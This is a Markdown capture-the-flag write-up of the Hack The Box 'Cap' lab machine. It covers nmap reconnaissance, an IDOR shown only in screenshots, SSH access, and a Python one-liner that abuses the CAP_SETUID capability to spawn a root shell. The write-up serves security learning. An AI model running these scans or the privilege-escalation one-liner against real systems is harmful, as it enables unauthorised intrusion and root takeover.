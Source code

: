```yaml
---
layout: single
title: Cap - Hack The Box
excerpt: "Cap is an easy difficulty Linux machine running an HTTP server that performs administrative functions including performing network captures. Improper controls result in Insecure Direct Object Reference (IDOR) giving access to another user's capture. The capture contains plaintext credentials and can be used to gain foothold. A Linux capability is then leveraged to escalate to root. "
date: 2025-05-10
classes: wide
header:
  teaser: /img2/cap.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - Insecure Directory Object Reference (IDOR)
  - Information Leakage
  - Abusing Capabilities (Python3.8) [Privilege Escalation]
---
```



## Reconnaissance

- Nmap

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.10.245
```

![](/img2/Pasted%20image%2020250510161529.png)

- Vulnerability and version scan

```bash
nmap -sCV -p21,22,80 -vvv 10.10.10.245 
```

![](/img2/Pasted%20image%2020250510161744.png)

## Exploitation

- IDOR 

![](/img2/Pasted%20image%2020250510163241.png)

![](/img2/Pasted%20image%2020250510163341.png)

```bash
ssh nathan@10.10.10.245
```

## Post-exploitation

- Capabilities

```bash
getcap -r / 2>/dev/null
```

![](/img2/Pasted%20image%2020250510164146.png)

- Python3.8 CAP_SETUID

```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

![](/img2/Pasted%20image%2020250510164405.png)